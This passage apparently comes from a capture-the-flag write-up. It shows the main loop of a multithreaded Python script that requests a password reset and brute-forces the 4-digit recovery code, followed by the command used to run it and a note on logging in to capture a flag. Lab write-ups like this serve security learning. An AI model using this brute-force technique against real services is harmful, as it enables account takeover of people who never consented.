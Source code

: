 ```python
    global thread_count
    global session 
    
    if len(sys.argv) > 1:
        thread_count = int(sys.argv[1])

    print("Sending password reset request..")     
    send_password_reset_request()

    print(f"Brute-forcing recovery code..")
    code_range = 10000  
    threads = []
    thread_step = code_range // thread_count #Number of codes per thread 
     
    for i in range(thread_count):
        start = i * thread_step
        end = start + thread_step
       
        codes_thread_subset = range(start, end)
        codes_thread_subset = [f"{code:04d}" for code in codes_thread_subset]
             
        thread = threading.Thread(target=enumerate_codes, args=([codes_thread_subset]))
        threads.append(thread)
        thread.start()
        
    for thread in threads:
        thread.join()
        
        
if __name__ == "__main__":
    main()
```

#### Modified Script Execution 

```
python3 brute-force-recovery-code.py
```

<img src="./images/modified-brute-force-script.png" alt="" width="100%"/> 

#### Using New Password to Login
- Logged in with new password ([See screenshot](#logging-in-with-new-password)).
- Captured first flag from dashboard ([See screenshot](#1st-flag)).


#### Screenshots
